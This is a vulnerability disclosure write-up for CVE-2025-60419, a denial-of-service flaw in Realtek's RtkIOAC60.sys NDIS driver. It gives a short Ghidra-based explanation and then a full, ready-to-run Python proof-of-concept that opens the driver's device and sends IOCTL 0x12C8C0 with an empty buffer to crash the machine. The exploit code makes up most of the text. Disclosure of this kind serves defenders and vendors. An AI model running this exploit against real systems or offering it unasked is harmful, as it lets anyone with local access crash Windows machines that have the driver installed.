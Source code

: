 **CVE-2025-60419: Driver-induced Denial of Service via IOCTL handling**

**Introduction:** RtkIOAC60.sys is a NDIS Usermode I/O Driver by Realtek
Semiconductor Corp. It also contains a DoS vulnerability that can be
caused by supplying an empty IRP Buffer for an IOCTL call.

**Specific Details:** Looking at Ghidra's pseudo-code for the driver, we
can identify the dispatch table and then the IRP_DEVICE_CONTROL function
where we can identify individual IOCTL codes and the corresponding
functions that are called.

<img src="/assets/images/RTKVuln/media/image2.png" alt="RTKVuln"
style="width:6.5in;height:1.81944in" />

This specific IOCTL code tries to set an NDIS Event through IVar2 which
comes from param_2 + 0x18 offset which is the user controllable IRP
buffer.

Sending the buffer leads to a crash.

**Commands To Execute:  **
<img src="/assets/images/RTKVuln/media/image3.png" alt="RTKVuln"
style="width:6.5in;height:1.84722in" />

**PoC Code (In Python):**

import win32file

import win32con

import traceback

import datetime

DEVICE_NAME = r"\\.\RTKIOAC60"

ioctl_map = {

0x12C8C0: "IOCTL_NDISPROT_SET_EVENT",

}

LOG_FILE = "ioctl_test_log.txt"

def log(msg):

timestamp = datetime.datetime.now().isoformat()

with open(LOG_FILE, "a") as f:

f.write(f"\[{timestamp}\] {msg}\n")

print(msg)

def test_known_ioctls():

try:

handle = win32file.CreateFile(

DEVICE_NAME,

win32con.GENERIC_READ \| win32con.GENERIC_WRITE,

0,

None,

win32con.OPEN_EXISTING,

0,

None

)

log(f"Handle to {DEVICE_NAME} opened.")

except Exception as e:

log(f"Failed to open device: {e}")

log(traceback.format_exc())

return

for code, name in ioctl_map.items():

try:

win32file.DeviceIoControl(handle, code, None, 0, None)

log(f"{name} (0x{code:08X}) succeeded.")

except Exception as e:

log(f"{name} (0x{code:08X}) failed: {e}")

log(traceback.format_exc())

try:

handle.close()

log("Handle closed successfully.")

except Exception as e:

log(f"Failed to close handle: {e}")

log(traceback.format_exc())

log("IOCTL testing complete.")

if \_\_name\_\_ == "\_\_main\_\_":

test_known_ioctls()

**Dump File:**

<img src="/assets/images/RTKVuln/media/image4.png" alt="RTKVuln"
style="width:2.56771in;height:1.51768in" />

<img src="/assets/images/RTKVuln/media/image1.png" alt="RTKVuln"
style="width:4.91146in;height:2.37074in" />
